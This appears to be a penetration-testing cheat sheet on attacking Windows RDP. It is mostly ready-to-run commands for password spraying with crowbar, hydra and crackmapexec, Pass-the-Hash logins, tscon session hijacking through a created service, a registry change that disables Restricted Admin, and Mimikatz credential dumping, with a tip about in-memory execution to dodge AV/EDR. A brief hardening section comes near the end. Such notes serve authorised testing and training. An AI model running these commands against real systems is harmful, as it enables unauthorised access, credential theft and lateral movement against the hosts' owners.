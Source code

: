 ```yaml
---
title: "Attacking Common Services — RDP"
tags: [attacking-common-services, rdp, brute-force, lateral-movement, session-hijack]
tools: [nmap, rdesktop, xfreerdp, crowbar, hydra, rdpscan, meterpreter, impacket, mimikatz, psexec, quser, tscon]
---
```


# RDP

## Summary
RDP (Remote Desktop Protocol) is a high-value target on Windows environments. Misconfigured RDP, weak credentials, and exposed endpoints enable lateral movement, credential theft (via Mimikatz), Pass‑the‑Hash (PtH), and session hijacking. RDP also has historic remote code execution vulnerabilities (e.g., BlueKeep CVE‑2019‑0708) — always check patch levels and exposure.

---

## Discovery & Enumeration
- Scan for RDP (default port 3389) and non-standard ports:
```bash
nmap -sV -p3389 --script rdp-enum-encryption,rdesktop-brute <target>
```
- `rdpscan`/`rdpy` can fingerprint RDP versions and enforce detection.
- Check for NLA (Network Level Authentication) — presence increases difficulty for simple brute-force.

**Quick check for NLA with xfreerdp**:
```bash
xfreerdp /v:<ip> /u:invaliduser /cert-ignore
# if prompts for credentials earlier, NLA is enabled
```

---

## Password Spraying & Brute-force
- Prefer password spraying (one password across many accounts) to avoid lockouts.
- Tools: Crowbar (rdp module), Hydra, CrackMapExec (rdp), Ncrack (rdp)

```bash
# Crowbar spraying (single password)
crowbar -b rdp -s 192.168.220.0/24 -U users.txt -c 'Summer2024!'

# Hydra
hydra -L users.txt -p 'Password123!' <ip> rdp

# CrackMapExec (RDP module)
crackmapexec smb <target> -u users.txt -p 'Password123!' --rdp
```

Notes:
- Respect account lockout thresholds and timing — spray slowly.
- Check for exposed RDP-over-HTTP/alternate ports.

---

## Accessing RDP from Linux
- `rdesktop` (old but handy):
```bash
rdesktop -u Administrator -p 'Passw0rd' <ip>
```
- `xfreerdp` (recommended):
```bash
xfreerdp /v:<ip> /u:Administrator /p:'Passw0rd' /cert-ignore
```
- For GUI-less shells use `smb` or `winrm` if available.

---

## Session Hijacking
If you can run commands on a host with sufficient privileges (or create a service), you can hijack active RDP sessions using `tscon`.

**View sessions**:
```powershell
query user
```

**Hijack a session (requires SYSTEM or admin priv):**
```cmd
# from SYSTEM
tscon <TARGET_SESSION_ID> /dest:<OUR_SESSION_NAME>

# Or create a service that runs tscon as SYSTEM
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
net start sessionhijack
```

**Note:** creating services requires elevated privileges — use psexec, Meterpreter (getsystem), or scheduled tasks as escalation vectors.

---

## Pass‑the‑Hash & NTLM Relaying
- If you have NTLM hashes, you can authenticate without plaintext passwords using PtH to RDP (xfreerdp `/pth` flag) or via Impacket tools (`wmiexec.py`, `psexec.py`).

```bash
# xfreerdp PtH
xfreerdp /v:<ip> /u:Administrator /pth:NTLM_HASH /cert-ignore

# Impacket example
python3 /usr/share/doc/impacket/examples/psexec.py DOMAIN/Administrator@<target> -hashes :NTLM_HASH
```

**Registry tweak for Restricted Admin mode errors** (if encountering Restricted Admin restrictions):
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

---

## Post‑Access Techniques
- Use Mimikatz to extract plaintext credentials / NTLM hashes from memory (requires SYSTEM or debug privileges).
- Dump credentials and try lateral RDP to other hosts.
- Enable `winrm` for scripted lateral movement if allowed in scope.

**Mimikatz basics (on-windows)**:
```powershell
# as admin
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

**Note:** some AV/EDR will detect Mimikatz — consider in-memory execution or off-host memory dumps.

---

## Vulnerabilities & CVEs
- CVE‑2019‑0708 (BlueKeep) — pre-RDP 8.1/2012/2016 unpatched systems
- Monitor MSRC and patching state; remote code execution vulnerabilities are rare but severe.

---

## Detection & Hardening Notes (for reporting)
- NLA should be enabled to prevent unauthenticated RDP handshakes.
- Enforce account lockout policies and MFA for remote access.
- Restrict RDP exposure via VPN or jump boxes; log and alert on failed authentication and new source IPs.
- Disable cached credentials where possible and limit local admin accounts.

---

## Quick Cheatsheet
```bash
# Scan
nmap -p3389 --script rdp-enum-encryption -Pn <target>

# Bruteforce (slow spray)
crowbar -b rdp -s <target>/32 -U users.txt -c 'Autumn2024!'

# RDP connect
xfreerdp /v:<ip> /u:Administrator /p:'P@ssw0rd' /cert-ignore

# PtH
xfreerdp /v:<ip> /u:Administrator /pth:NTLM_HASH /cert-ignore
```
